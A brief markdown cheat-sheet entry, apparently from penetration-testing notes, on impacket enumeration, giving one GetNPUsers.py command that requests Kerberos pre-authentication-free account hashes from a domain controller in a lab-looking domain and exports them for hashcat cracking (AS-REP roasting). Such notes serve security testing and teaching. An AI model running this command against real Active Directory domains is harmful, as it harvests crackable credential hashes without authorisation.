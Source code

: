 # impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### Account with doesn't require Kerberos Auth

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```



